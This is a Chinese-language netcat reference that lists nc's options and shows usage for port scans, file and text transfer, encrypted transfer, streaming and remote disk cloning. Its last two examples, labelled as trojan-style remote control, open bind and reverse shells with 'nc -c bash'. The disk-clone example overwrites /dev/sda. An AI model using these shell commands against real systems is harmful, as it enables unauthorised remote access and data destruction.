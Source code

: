 # nc

## 参数
```shell
-g<网关> : 设置路由器跃程通信网关，最多设置8个； 
-G<指向器数目> : 设置来源路由指向器，其数值为4的倍数； 
-h : 在线帮助； 
-i<延迟秒数> : 设置时间间隔，以便传送信息及扫描通信端口； 
-l : 使用监听模式，监控传入的资料； 
-n : 直接使用ip地址，而不通过域名服务器； 
-o<输出文件> : 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存； 
-p<通信端口> : 设置本地主机使用的通信端口； 
-r : 指定源端口和目的端口都进行随机的选择； 
-s<来源位址> : 设置本地主机送出数据包的IP地址； 
-u : 使用UDP传输协议； 
-v : 显示指令执行过程； 
-w<超时秒数> : 设置等待连线的时间； 
-z : 使用0输入/输出模式，只在扫描通信端口时使用。 
```

## 例子
- 端口扫描
```shell
# 扫描 192.168.234.2 的全部端口
nc -nv -z 192.168.234.2 1-65535 
```

- 传送文本信息
```shell
# server
nc -l -p 333

# client
c -nv ip 333
```

- 文件传送
```shell
# server
nc -lp 333 < mi.mp4 -q 1

# client
nc -nv ip 333 > 1.MP4 
```

- 加密传输
```shell
# server
nc -l -p 444 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > B.zip

# client
mcrypt --flush -Fbq -a rijndael-256 -m ecb < A.zip | nc -nv 192.168.234.131 444 -q 1
    –flush 意思为加解密完成后，会销毁加密密钥，不会在本地保存
    -Fbq 加密  -Fbqd 解密
    rijndael-256  为加密算法
    ecb 为加密方法
```

- 流媒体服务器
```shell
# server
cat A.mp4 | nc -l -p 444

# client
nc -nv 192.168.234.131 444 | mplayer -vo x11 -cache 3000 -
    -cache 3000 为缓存大小
```

- 远程克隆硬盘
```shell
# server
nc -l -p 444 | dd of=/dev/sda

# client
dd if=/dev/sda | nc -nv 192.168.234.131 444 -q 1
```

- 远程控制 / 木马  正向控制连接 
```shell
# 被控
nc -l -p 444 -c bash

# 控制
nc -nv 192.168.1.131 444
```

- 远程控制 / 木马  反向控制连接 
```shell
# 被控
nc -nv 192.168.1.131 444 -c bash

# 控制
nc -l -p 444
```

